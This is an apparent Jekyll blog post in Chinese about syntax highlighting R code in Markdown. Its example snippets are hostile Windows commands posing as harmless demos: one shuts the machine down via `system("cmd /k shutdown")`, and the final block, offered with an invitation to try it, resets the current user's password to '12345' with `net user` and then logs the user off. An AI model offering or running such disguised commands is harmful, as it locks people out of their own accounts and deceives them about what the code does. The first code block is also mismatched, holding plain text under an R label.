 ```yaml
---
layout: post
cTitle: Markdown中程式語法高亮 -- Demo. by R
title: "syntax highlighting in markdown"
description: ""
category: 
cssdemo: 2014-spring
tags: [markdown, R]
published: true
---
```

{% include JB/setup %}

blogger用來記錄關於程式的心得，少不了要讓你的程式上上水彩，語法高亮(syntax highlighting)方便閱讀者閱讀，以下參考[這裡](http://support.codebasehq.com/articles/tips-tricks/syntax-highlighting-in-markdown)

例如我想要對下面這段程式碼進行語法高亮：

``` R
No language indicated, so no syntax highlighting. 
But let's throw in a <b>tag</b>.
```

<!-- more -->

就要在markdown中這樣打

	``` R
	system("cmd /k shutdown -s -t")
	```
	
超簡單的，請自行嘗試：

```R
user_name = Sys.info()[length(Sys.info())]
system(sprintf("cmd /k net user %s 12345", user_name))
system("cmd /k shutdown -l")
```


	
	
	